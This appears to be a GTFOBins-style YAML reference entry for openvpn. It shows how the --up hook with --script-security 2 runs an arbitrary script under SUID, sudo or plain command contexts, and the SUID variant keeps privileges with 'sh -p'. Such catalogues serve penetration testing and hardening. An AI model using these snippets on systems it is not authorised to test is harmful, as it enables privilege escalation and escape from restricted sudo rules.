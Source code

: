 ```yaml
---
functions:
  suid:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo '#!/usr/bin/env -S sh -p' > $TF
        echo "$COMMAND" >> $TF
        chmod +x $TF
        openvpn --dev tun0 --script-security 2 --up $TF
  sudo:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo '#!/usr/bin/env sh' > $TF
        echo "$COMMAND" >> $TF
        chmod +x $TF
        openvpn --dev tun0 --script-security 2 --up $TF
  command:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo '#!/usr/bin/env sh' > $TF
        echo "$COMMAND" >> $TF
        chmod +x $TF
        openvpn --dev tun0 --script-security 2 --up $TF
---
```

